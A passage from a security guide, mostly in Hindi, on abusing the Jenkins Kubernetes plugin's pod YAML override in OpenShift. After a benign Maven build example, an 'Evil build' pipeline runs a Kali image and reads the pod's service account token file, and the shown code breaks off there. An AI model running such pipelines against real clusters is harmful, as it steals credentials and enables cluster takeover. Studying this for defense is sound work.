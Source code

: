 # Jenkins in Openshift - build pod overrides

**इस पृष्ठ के मूल लेखक हैं** [**Fares**](https://www.linkedin.com/in/fares-siala/)

## Kubernetes plugin for Jenkins
यह प्लगइन ज्यादातर openshift/kubernetes क्लस्टर के अंदर Jenkins के मुख्य कार्यों के लिए जिम्मेदार है। आधिकारिक दस्तावेज़ [यहां](https://plugins.jenkins.io/kubernetes/) है।
यह कुछ कार्यात्मकताएँ प्रदान करता है जैसे कि डेवलपर्स को जेनकिंस बिल्ड पॉड की कुछ डिफ़ॉल्ट कॉन्फ़िगरेशन को ओवरराइड करने की क्षमता।

## Core functionnality

यह प्लगइन डेवलपर्स को उनके कोड को उपयुक्त वातावरण में बनाने के दौरान लचीलापन प्रदान करता है।
```groovy
podTemplate(yaml: '''
apiVersion: v1
kind: Pod
spec:
containers:
- name: maven
image: maven:3.8.1-jdk-8
command:
- sleep
args:
- 99d
''') {
node(POD_LABEL) {
stage('Get a Maven project') {
git 'https://github.com/jenkinsci/kubernetes-plugin.git'
container('maven') {
stage('Build a Maven project') {
sh 'mvn -B -ntp clean install'
}
}
}
}
}
```
## Some abuses leveraging pod yaml override

हालांकि, इसका दुरुपयोग किसी भी सुलभ इमेज जैसे Kali Linux का उपयोग करने और उस इमेज से प्रीइंस्टॉल्ड टूल्स का उपयोग करके मनमाने कमांड निष्पादित करने के लिए किया जा सकता है। 
नीचे दिए गए उदाहरण में, हम चल रहे पॉड के सर्विसएकाउंट टोकन को एक्सफिल्ट्रेट कर सकते हैं।
```groovy
podTemplate(yaml: '''
apiVersion: v1
kind: Pod
spec:
containers:
- name: kali
image: myregistry/mykali_image:1.0
command:
- sleep
args:
- 1d
''') {
node(POD_LABEL) {
stage('Evil build') {
container('kali') {
stage('Extract openshift token') {
sh 'cat /run/secrets/kubernetes.io/serviceaccount/token'
```